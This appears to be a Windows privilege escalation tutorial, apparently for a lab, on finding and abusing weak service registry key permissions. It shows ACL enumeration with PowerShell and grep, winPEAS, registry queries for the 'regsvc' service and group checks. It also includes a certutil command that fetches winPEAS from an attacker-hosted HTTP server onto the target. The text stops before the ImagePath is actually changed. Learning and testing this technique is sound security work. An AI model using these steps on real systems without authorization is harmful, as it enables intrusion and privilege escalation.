

### **Hunting for Weak Registry Keys Manually**

1. Hunting for weak registry key permissions with PowerShell  
   `Get-Acl -Path hklm:\System\CurrentControlSet\services\* | Format-List | Out-File -FilePath C:\temp\SystemServicesACLs.txt`

2. Transfer the file to your machine for analysis (see the file transfer section). Using Linux commands helps identify outliers more easily:  
   `cat SystemServicesACLs.txt | grep -i "Path\|Access\|BUILTIN\\\Users\|Everyone\|INTERACTIVE\|Authenticated Users" | grep -v "ReadKey" | grep -B 1 -i "Authenticated Users|\BUILTIN\\\Users\|Everyone\|INTERACTIVE\|FullControl\|Modify\|Write"`

### **Hunting for Weak Registry Keys with WinPEAS**

1. Host winPEAS on a Python HTTP server (64-bit)  
   `python3 -m http.server 8000`  
    
   **Note:** We confirmed the target is a 64-bit machine with:  
   `systeminfo | findstr /B /C:"System Type"`

2. Transfer winPEAS to the target using certutil  
   `certutil -urlcache -f http://[IP-ADDRESS]:8000/winPEASx64.exe winPEASx64.exe`  
    

3. Run winPEAS to search for weak registry permissions  
   `.\winPEASx64.exe`  
    
   **Note:** `FullControl` and `TakeOwnership` privileges can be exploited to abuse weak registry permissions.

### **Enumerating the Weak Service Registry Key**

1. Enumerate the service with cmd.exe  
   `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`  
    

2. Enumerate the service with PowerShell  
   `Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc' | Select-Object *`  
    

   Service Start Types: 

     Start 0: Boot Start – Loaded by the OS loader before other services.

     Start 1: System Start – Started during system boot.

     Start 2: Automatic Start – Started automatically by the Service Control Manager at startup. 

     Start 3: Manual Start – Must be started manually by a user or application. 

     Start 4: Disabled – Service is disabled and will not start.

3. Verify permissions with icacls  
   `icacls "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"`  
   `icacls "C:\Program Files\Insecure Registry Service"`  
    

4. Check effective permissions  
   We typically find the user lacks `(F)`, `(M)`, or `(W)` permissions, preventing modification of the binary.  
    

5. Modify the registry key ImagePath if permissions allow  
   `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`

    

    `whoami /groups`

    

    **Note:** The output confirms the user is part of the "NT AUTHORITY\INTERACTIVE" group, which has FullControl permissions on the regsvc registry key, allowing exploitation of weak registry key permissions.